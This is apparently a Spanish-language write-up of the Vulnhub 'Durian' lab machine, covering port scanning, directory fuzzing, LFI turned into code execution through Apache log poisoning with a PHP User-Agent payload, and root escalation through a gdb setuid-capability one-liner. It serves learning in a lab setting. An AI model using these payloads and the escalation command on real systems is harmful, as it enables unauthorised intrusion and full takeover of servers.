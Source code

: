 ```yaml
---
layout: e
title: Durian - Vulnhub
date: 25/10/2023
classes: wide
header:
  teaser:
  icon: /assets/images/vulnhub.webp
tags:
  - LFI > RCE - Abusing /proc/self/fd/X + Log Poisoning
  - Abusing capabilities (cap_setuid+ep on gdb binary)
  - Web Enumeration
  - fácil
  - linux
---
```


Para poder vulnerar esta máquina primero debemos hacer una enumeración web, en la cual obtendremos la dirección de un recurso PHP, del cual nos podemos aprovechar para poder llevar a cabo el LFI, a través de ahí contaminar el log de acceso de apache para poder ejecutar nuestro código malicioso PHP y convertirlo en un RCE, entablandonos una reverse shell para posterior a ello escalar privilegios,.


# PortScan
__________


```
nmap -sT -p22,80,7080,8088 192.168.204.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 18:23 AST
Nmap scan report for 192.168.204.152
Host is up (0.00080s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
MAC Address: 00:0C:29:CC:43:7D (VMware)
                                     
```


# Sitio Web
_______

![](/assets/images/durian/Pasted image 20231025182531.png)

# Fuzzing de Sitio Web.
_______

```
gobuster dir -u http://192.168.204.152 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

Que nos reportará los siguientes directorios de la máquina:
```
===============================================================
/icons/               (Status: 403) [Size: 280]
Progress: 90087 / 220561 (40.84%)             [ERROR] 2023/10/25 18:26:31 [!] Get "http://192.168.204.152/blog/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/server-status/       (Status: 403) [Size: 280]
/cgi-data/            (Status: 200) [Size: 953]
                                               
```

Una vez vayamos al directorio "/cgi-data" veremos un recurso **.PHP** que dentro tendrá en comentarios como funciona el código.

![](/assets/images/durian/Pasted image 20231025182939.png)

es decir, que al poner el parámetro "**?file=**"  podemos aprovecharnos para hacer un LFI.

# LFI > Log Poisoning
_________

Hacemos una petición para poder identificarla en el log.
```
curl -s -X GET "http://192.168.204.153/probando" -H "User-Agent: <?php system('whoami'); ?>"
```

![](/assets/images/durian/Pasted image 20231025184632.png)


Hemos contaminado el Log, y también está ejecutando el código **.PHP**, por lo que podríamos subir un recurso qué podremos controlar desde la URL para entablarnos una reverse shell.

# BurpSuite 
_________

Nos aprovechamos del proxy Burpsuite, para agregar el código .PHP malicioso en el recurso que subiremos, para luego poder desde la URL poder controlar el comando, volviéndolo así un RCE.

Interceptamos esta petición:

![](/assets/images/durian/Pasted image 20231025185034.png)

Para modificar el "**User-Agent:**" desde el **Burpsuite** con el código .PHP malicioso qué deseemos, en este caso unos para controlar el código que queramos ejecutar desde la URL:

![](/assets/images/durian/Pasted image 20231025185353.png)

Para controlar desde la URL la ejecución de comando, como podemos ver:

![](/assets/images/durian/Pasted image 20231025185808.png]])
Y desde la URL ya podríamos entablarnos una Reverse Shell.

# Escalada de Privilegios.
_______

Buscamos capabilites.
```
www-data@durian:/tmp$ getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```
Vemos que está la la "**cap_setuid+ep**", qué investigando en el recurso [GTFOBINS](https://gtfobins.github.io/gtfobins/gdb/#capabilities) podemos volvernos **Root** aprovechándonos de esta capabilitie en "gdb".

```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```

![](/assets/images/durian/Pasted image 20231025195554.png)





